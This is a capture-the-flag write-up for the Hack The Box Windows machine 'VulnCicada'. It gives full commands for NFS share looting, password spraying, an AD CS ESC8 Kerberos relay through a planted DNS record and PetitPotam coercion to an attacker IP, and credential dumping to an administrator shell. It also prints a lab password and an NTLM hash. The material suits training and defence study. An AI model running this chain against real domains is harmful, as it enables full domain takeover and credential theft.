## About VulnCicada

**Name:** VulnCicada

**Machine:** https://app.hackthebox.com/machines/VulnCicada

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.63.169

---
## Enumeration

I'll start with an nmap scan:

```
sudo nmap -sC -sV -oA nmap/VulnCicada -v 10.129.63.169
```

Looking at the output indicates that it is a Domain Controller. There's also an unusual pair for a DC: `rpcbind`/`nfs` on 111 and 2049, which isn't something we normally see on a Windows box.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-15 13:46:31Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-15T13:36:49
| Not valid after:  2027-08-15T13:36:49
| MD5:     a314 2def 4a24 6319 1c33 1be8 9832 eb75
| SHA-1:   622d 8e98 4b87 418c 8015 2e9b 76d9 695f bee7 7a0f
|_SHA-256: 257a 7459 cacc d722 b9a8 c105 847d fcad 23e8 4f1e 450d 65d0 ebe2 c442 e7f6 36c4
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-15T13:36:49
| Not valid after:  2027-08-15T13:36:49
| MD5:     a314 2def 4a24 6319 1c33 1be8 9832 eb75
| SHA-1:   622d 8e98 4b87 418c 8015 2e9b 76d9 695f bee7 7a0f
|_SHA-256: 257a 7459 cacc d722 b9a8 c105 847d fcad 23e8 4f1e 450d 65d0 ebe2 c442 e7f6 36c4
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-15T13:36:49
| Not valid after:  2027-08-15T13:36:49
| MD5:     a314 2def 4a24 6319 1c33 1be8 9832 eb75
| SHA-1:   622d 8e98 4b87 418c 8015 2e9b 76d9 695f bee7 7a0f
|_SHA-256: 257a 7459 cacc d722 b9a8 c105 847d fcad 23e8 4f1e 450d 65d0 ebe2 c442 e7f6 36c4
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Issuer: commonName=cicada-DC-JPQ225-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-15T13:36:49
| Not valid after:  2027-08-15T13:36:49
| MD5:     a314 2def 4a24 6319 1c33 1be8 9832 eb75
| SHA-1:   622d 8e98 4b87 418c 8015 2e9b 76d9 695f bee7 7a0f
|_SHA-256: 257a 7459 cacc d722 b9a8 c105 847d fcad 23e8 4f1e 450d 65d0 ebe2 c442 e7f6 36c4
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Issuer: commonName=DC-JPQ225.cicada.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-14T13:44:25
| Not valid after:  2027-02-13T13:44:25
| MD5:     0ae4 6c2b a74e 7f15 d543 d19d a474 856d
| SHA-1:   f4b9 cc34 13da 4b0c 2ad3 6593 843d 5d9b c5dc 7f80
|_SHA-256: 53de 12e5 65c5 424d 6065 c8df 169a 1829 bdd8 ed06 5182 d128 2568 d0e7 1dde 8ee6
|_ssl-date: 2026-08-15T13:48:07+00:00; -21s from scanner time.
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows
```

I'll add `cicada.vl` and `DC-JPQ225.cicada.vl` to `/etc/hosts` so name resolution works cleanly for LDAP, Kerberos, and SMB later on.



Visiting port 80 gives us default IIS page.



I fuzzed for virtual hosts and ran a directory brute force against it as well, but neither turns up anything.



Since the web side is a dead end, I'll pivot to SMB. Null and guest sessions are both rejected, so there's no unauthenticated enumeration path there.



## Credential Access

That leaves the NFS service from the initial scan, which is unusual enough on a DC to be worth checking directly:

```
showmount -e 10.129.63.169
```



There's a share called `profiles`, so I'll mount it locally:

```
mkdir profiles
sudo mount -t nfs 10.129.63.169:/ ./profiles/ -o nolock
cd profiles
```

Listing it out, the share holds a set of per-user directories.



Most of them are empty to the public user I'm mounting as, but two directories are readable.



Each of those two contains a `.png`, so I'll pull both back to my machine.



`vacation.png` is just a guy with a laptop, paragliding - nothing useful.


`marketing.png` shows a woman working at a computer.


Looking closer at `marketing.png`, there's a sticky note near her left hand with what looks like a password written on it. Combined with the directory names from the NFS share as a username list, this is enough for a password spray.



The spray lands a hit for `Rosie.Powell` over Kerberos. With valid domain creds now in hand, I'll go back and list the SMB shares.



Kerberos auth is time-sensitive, so before doing anything else I'll sync my clock against the DC to stay inside its allowed skew window:

```
date
sudo timedatectl set-ntp off
sudo rdate -n 10.129.63.169
```

With that sorted, I'll request a TGT for `Rosie.Powell` and set it as my active ccache:

```
impacket-getTGT cicada.vl/Rosie.Powell:Cicada123 -k -dc-ip 10.129.63.169
export KRB5CCNAME=Rosie.Powell.ccache
```

Now I can browse SMB using Kerberos auth:

```
impacket-smbclient -k DC-JPQ225.cicada.vl 
```

`Profiles$` turns out to just be the same content as the NFS share I already pulled from.



But there's also a `CertEnroll` share holding certificate templates. A strong signal that AD CS is deployed on this domain, which opens up certificate-based attack paths.



## AD CS Exploitation

Given the `CertEnroll` share, I'll check for AD CS misconfigurations with `certipy`:

```
certipy-ad find -target DC-JPQ225.cicada.vl -u Rosie.Powell@cicada.vl -p Cicada123 -k -vulnerable -stdout
```

No certificate templates come back as vulnerable, but the CA itself is flagged for `ESC8`. 



There are two ways to execute this attack:
- One is from a domain-joined Windows host using [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay), which automates both the coercion and the Kerberos relay to the AD CS Web Enrollment endpoint. 
- The other is entirely from Linux, using the technique described in [Synacktiv's](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html) Kerberos relay research. I'll go with the Linux route here since it avoids standing up a Windows box just for this step.

The technique starts by planting a malicious DNS record on the domain that, once resolved, forces the DC to authenticate to my attacker IP via a crafted SPN:

```
bloodyad -u Rosie.Powell -p Cicada123 -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 10.10.15.112
```

Next, I’ll start `certipy relay` targeting the ADCS webserver, and it listens on SMB:

```
certipy-ad relay -target 'http://dc-jpq225.cicada.vl/' -template DomainController -subject CN=DC-JPQ225,CN=Computer,DC=cicada,DC=vl
```



To trigger that authentication, I need to coerce the DC into connecting back to me. I'll use NetExec's `coerce_plus` module to check which coercion methods the target is vulnerable to:

```
netexec smb DC-JPQ225.cicada.vl  -u Rosie.Powell -p Cicada123 -k -M coerce_plus
```



Several methods come back viable, but I'll go with `PetitPotam` since it's the most reliable in practice:

```
netexec smb DC-JPQ225.cicada.vl  -u Rosie.Powell -p Cicada123 -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
```



As soon as the coercion fires, the relay on my listener catches the DC's Kerberos authentication and completes the certificate request. 



The result is a certificate that authenticates as the `DC-JPQ225` machine account. I'll feed it to `certipy auth` to convert it into a usable Kerberos TGT:

```
certipy-ad auth -pfx dc-jpq225.pfx -dc-ip 10.129.63.169
```

This gives back both a TGT for the machine account and its NTLM hash.



The machine account itself can’t be used to obtain an interactive shell, but the TGT we generated is more than enough to extract admin hash from the DC.

```
KRB5CCNAME=dc-jpq225.ccache impacket-secretsdump -k -no-pass cicada.vl/dc-jpq225\$@dc-jpq225.cicada.vl -just-dc-user administrator
```



`netexec` confirms the hash is valid for `administrator`.



From there, `wmiexec` gives me a shell:

```
impacket-wmiexec cicada.vl/administrator@dc-jpq225.cicada.vl -k -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

With that, I can read both the user and root flags.



---